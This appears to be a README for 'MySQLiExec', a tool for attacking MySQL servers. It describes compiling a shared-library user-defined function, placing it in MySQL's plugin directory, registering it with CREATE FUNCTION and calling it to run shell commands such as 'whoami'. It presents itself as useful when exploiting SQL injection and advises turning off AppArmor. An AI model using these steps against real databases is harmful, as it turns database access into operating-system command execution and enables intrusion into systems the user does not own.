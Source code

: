# MySQLiExec
mssql's cmdexec-like for mysql, useful when exploiting sql injection on a mysql server.

Deskripsi: Tulis pustaka yang dikompilasi ke direktori plugins mysql & muat untuk dapat menjalankan perintah shell seperti cmdexec mssql

Compile Example: 
```bash
gcc -fPIC -Wall -I/usr/include/mysql -shared -o sqliexec.so sqliexec.c // on ubuntu with installed headers
```

Find Plugin DIR: 
```sql
SHOW VARIABLES LIKE '%plugin%';
```

Install: 
```sql
CREATE FUNCTION sqliexec RETURNS STRING SONAME 'sqliexec.so';
```

Run: 
```sql
SELECT sqliexec('whoami');
```

Notes: make sure AppArmor is turned off for mysql on linux machines

Author: Kasif Dekel

Version: 1.0
